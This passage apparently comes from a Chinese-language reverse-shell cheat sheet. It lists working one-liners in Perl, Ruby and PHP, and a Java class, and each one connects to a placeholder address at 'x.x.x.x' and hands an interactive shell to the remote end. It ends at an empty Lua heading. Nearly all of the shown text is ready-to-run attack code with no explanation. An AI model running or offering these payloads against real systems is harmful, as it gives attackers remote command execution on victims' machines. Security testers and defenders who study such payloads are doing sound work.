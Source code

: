 ##### 2. Perl

1. 第一种：

   ```perl  
    perl -e 'use Socket;$i="x.x.x.x";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   ```

2. 第二种：

   ```perl
    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:port");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
   ```

##### 3. Ruby

1. 第一种：

   ```ruby
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x","port");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
   ```

2. 第二种：

   ```ruby
    ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
   ```

##### 4. PHP

```php
php -r '$sock=fsockopen("x.x.x.x",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

##### 5. Java

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/port;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

##### 6. Lua
